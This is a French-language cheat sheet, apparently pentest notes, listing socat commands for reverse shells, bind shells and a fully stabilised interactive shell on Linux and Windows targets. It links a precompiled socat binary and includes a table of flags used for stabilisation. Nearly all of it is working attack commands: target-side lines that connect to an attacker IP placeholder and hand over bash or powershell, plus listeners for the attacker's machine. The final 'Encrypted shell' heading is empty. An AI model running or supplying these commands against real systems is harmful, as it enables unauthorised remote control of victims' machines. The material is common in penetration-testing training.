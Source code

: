 
## __Reverse shell__

[Binaire précompilé de socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

